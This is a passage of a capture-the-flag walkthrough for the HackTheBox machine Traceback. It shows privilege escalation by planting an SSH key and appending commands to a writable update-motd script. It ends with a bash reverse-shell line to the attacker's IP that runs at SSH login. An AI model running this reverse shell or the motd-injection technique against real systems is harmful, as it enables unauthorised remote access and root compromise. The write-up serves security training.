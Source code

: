 ```bash
sysadmin@traceback:~$ echo "ssh-rsa AAAAB[...]LVi38= root@darkness" > .ssh/authorized_keys
```

Now we can use ssh to login.

```bash
root@darkness:~# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$
```

Let us verify that the target is exploitable, by changing the `Welcome to Xh4H land` prompt to something else.

```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'echo "Chr0x6eOs"' >> 00-header 
```

If we now login again using ssh, we should see `Chr0xe6Os` being prompted upon login.

```bash
root@darkness:~# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Chr0x6eOs


Last login: Wed Jul 29 08:51:00 2020 from 10.10.14.7
$
```

We have verified our assumptions and can now exploit the target.

#### Exploiting update-motd write-permissions

We can exploit our permissions by simply adding a bash reverse-shell to the motd prompt.

```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"' >> 00-header 
```

In order to trigger the reverse-shell, we simply have to login via ssh again.
